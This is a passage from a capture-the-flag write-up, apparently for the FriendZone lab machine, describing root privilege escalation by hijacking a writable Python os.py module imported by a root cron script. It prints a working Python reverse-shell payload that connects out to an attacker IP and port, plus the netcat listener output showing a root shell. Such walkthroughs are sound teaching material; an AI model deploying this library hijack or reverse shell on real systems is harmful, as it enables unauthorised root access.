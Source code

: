 let check `/opt/server_admin/reporter.py`
```python
#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''

#os.system(command)

# I need to edit the script later
# Sam ~ python developer
```
the script is calling `/usr/lib/python2.7/os.py` since it is using `import os`. Lucky for us we have write permission to `os.py`. The goal is adding a python reverse shell inside `os.py`. Our payload will be execute when root crontab is executing `/opt/server_admin/reporter.py `


here is the payload
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.43",6969));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
```
on kali
```console
bibo318@parrot:~$ nc -nvlp 6969
listening on [any] 6969 ...

connect to [10.10.14.43] from (UNKNOWN) [10.10.10.123] 53932
bash: cannot set terminal process group (17829): Inappropriate ioctl for device
bash: no job control in this shell
root@FriendZone:~# 
root@FriendZone:~# ls
ls
certs
root.txt
root@FriendZone:~# cat root.txt	
```
